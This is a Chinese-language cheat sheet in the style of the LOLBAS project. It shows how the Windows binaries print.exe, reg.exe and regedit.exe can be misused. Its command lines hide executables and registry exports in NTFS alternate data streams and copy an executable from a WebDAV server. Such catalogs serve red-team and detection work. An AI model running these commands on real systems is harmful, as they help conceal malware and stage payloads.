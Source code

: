```
https://blog.csdn.net/a1453514850/article/details/88074300
```

## Print.exe
- 使用说明：

Print.exe是Windows用来将文件发送到打印机的程序。

文件路径:
```
C:\Windows\System32\print.exe
C:\Windows\SysWOW64\print.exe
```
- 执行方式：
```
print /D:C:\ADS\File.txt:file.exe C:\ADS\File.exe
print /D:C:\ADS\CopyOfFile.exe C:\ADS\FileToCopy.exe
print /D:C:\OutFolder\outfile.exe \\WebDavServer\Folder\File.exe
```
- 参考资料：
```
https://twitter.com/Oddvarmoe/status/985518877076541440
https://www.youtube.com/watch?v=nPBcSP8M7KE&lc=z22fg1cbdkabdf3x404t1aokgwd2zxasf2j3rbozrswnrk0h00410
```

## Reg.exe
- 使用说明：

reg.exe，用该命令向注册表加入一个新的指定键值

文件路径:
```
C:\Windows\System32\reg.exe
C:\Windows\SysWOW64\reg.exe
```
- 执行方式：
```
reg export HKLM\SOFTWARE\Microsoft\Evilreg c:\ads\file.txt:evilreg.reg
```
- 参考资料：
```
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
```

## Regedit.exe
- 使用说明：

regedit.exe是微软公司出品的一个进程文件。位于C:\Windows\目录，可用于修改Windows系统的注册表中的项，值以及数据。

文件路径:
```
C:\Windows\System32\regedit.exe
C:\Windows\SysWOW64\regedit.exe
```
- 执行方式：
```
regedit /E c:\ads\file.txt:regfile.reg HKEY_CURRENT_USER\MyCustomRegKey
regedit C:\ads\file.txt:regfile.reg
```
- 参考资料：
```
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
```
